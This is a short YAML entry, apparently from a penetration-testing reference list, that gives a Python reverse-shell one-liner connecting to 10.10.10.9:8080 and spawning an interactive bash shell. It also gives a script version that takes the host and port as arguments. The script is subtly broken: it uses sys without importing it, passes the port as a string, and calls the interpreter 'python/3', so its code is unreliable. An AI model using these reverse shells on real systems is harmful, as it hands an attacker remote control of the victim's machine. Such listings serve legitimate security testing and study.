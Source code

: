 ```yaml
---
functions:
  shell:
    - description: Python reverse shell
      code: |

        python/3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.9",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

        
        Create a shell.py script and run with python/3 shell.py 10.1.1.246 9998:

        import socket,subprocess,os
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((sys.argv[1],sys.argv[2]))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/bash","-i"])
---
```

